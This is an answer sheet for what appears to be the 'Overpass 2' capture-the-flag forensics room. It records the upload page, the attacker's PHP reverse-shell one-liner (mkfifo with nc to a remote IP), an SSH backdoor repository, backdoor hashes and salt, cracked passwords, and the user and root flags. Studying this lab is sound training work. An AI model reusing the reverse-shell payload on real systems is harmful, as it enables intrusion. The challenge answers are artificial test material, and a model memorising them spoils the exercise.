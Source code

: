 # Overpass 2


## Task 1

* What was the URL of the page they used to upload a reverse shell?

```
/development/
```

* What payload did the attacker use to gain access?

```
<?php exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")?>
```

* What password did the attacker use to privesc?

```
whenevernoteartinstant
```

* How did the attacker establish persistence?

```
https://github.com/NinjaJc01/ssh-backdoor
```

* Using the fasttrack wordlist, how many of the system passwords were crackable?

```
4
```

## Task 2

* What's the default hash for the backdoor?

```
bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3
```

* What's the hardcoded salt for the backdoor?

```
1c362db832f3f864c8c2fe05f2002a05
```

* What was the hash that the attacker used? - go back to the PCAP for this!

```
6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
```

* Crack the hash using rockyou and a cracking tool of your choice. What's the password?

```
november16
```

# Task 3


* The attacker defaced the website. What message did they leave as a heading?

```
H4ck3d by CooctusClan
```

* What's the user flag?

```
thm{d119b4fa8c497ddb0525f7ad200e6567}
```

* What's the root flag?

```
thm{d53b2684f169360bb9606c333873144d}
```